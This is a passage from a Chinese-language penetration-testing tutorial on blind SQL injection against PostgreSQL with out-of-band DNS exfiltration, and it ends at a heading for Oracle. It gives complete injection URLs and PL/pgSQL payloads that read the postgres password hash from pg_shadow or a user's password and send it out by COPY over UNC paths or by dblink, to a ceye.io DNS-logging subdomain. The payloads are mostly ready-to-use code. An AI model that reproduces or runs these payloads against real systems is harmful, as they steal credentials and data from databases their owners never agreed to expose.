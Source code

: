 从定义看出这里是无法嵌套查询，它这里需要直接填入文件名，所以过程就麻烦一点。

这是网上的POC，整体上没有什么问题。

```
DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function()RETURNS VOID AS $$DECLARE exec_cmd TEXT; DECLARE query_result TEXT;BEGINSELECT INTO query_result (SELECT passwdFROM pg_shadow WHERE usename='postgres'); exec_cmd := E'COPY table_output(content)FROM E\'\\\\'||query_result||E'.postgreSQL.nk40ci.ceye.io\\foobar.txt\''; EXECUTE exec_cmd;END;$$ LANGUAGE plpgSQL SECURITY DEFINER;SELECT temp_function(); 
```

只是需要对数据处理编一下码，此处会用到encode函数，如下

```
encode(pass::bytea,’hex’) 
```

最后完整的POC如下：

```
http://127.0.0.1/pgSQL.php?id=1;DROP TABLE IF EXISTS table_output;  CREATE TABLE table_output(content text);  CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $$ DECLARE exec_cmd TEXT;  DECLARE query_result TEXT;  BEGIN SELECT INTO query_result (select encode(pass::bytea,'hex') from test_user where id =1);  exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.pSQL.3.nk40ci.ceye.io\\\\foobar.txt\'';     EXECUTE exec_cmd;  END; $$ LANGUAGE plpgSQL SECURITY DEFINER;  SELECT temp_function(); 
```

结果：

[![img](http://s5.51cto.com/oss/201802/10/66c0dbecddeba0fca068669ab21e3e75.png)](http://s5.51cto.com/oss/201802/10/66c0dbecddeba0fca068669ab21e3e75.png)

tips：因为这里的copy需要的参数是文件路径，所以这里其实也是利用了UNC路径，因此这个方式也只能在windows下使用

(2) db_link扩展

db_link是PostreSQL用来连接其他的数据库的扩展，用法也很简单，而且可以嵌套子查询，那就很方便了

```
dblink('连接串', 'SQL语句') 
```

```
http://127.0.0.1/pgsql.php?id=1;CREATE EXTENSION dblink;  SELECT * FROM dblink('host='||(select encode(pass::bytea,'hex') from test_user where id =1)||'.vvv.psql.3.nk40ci.ceye.io user=someuser dbname=somedb',  'SELECT version()') RETURNS (result TEXT); 
```

CREATE EXTENSION dblink; 就是打开这个扩展，因为这个扩展默认是关闭的。

[![img](http://s2.51cto.com/oss/201802/10/e2942210be52182c17200251e526e538.jpg)](http://s2.51cto.com/oss/201802/10/e2942210be52182c17200251e526e538.jpg)

tips：

- 在Ubuntu测试的时候dblink扩展不是默认安装的，需要自己安装扩展。
- Windows下是默认虽然有扩展的，但是默认是不开启的，需要打开扩展。

**4. Oracle**
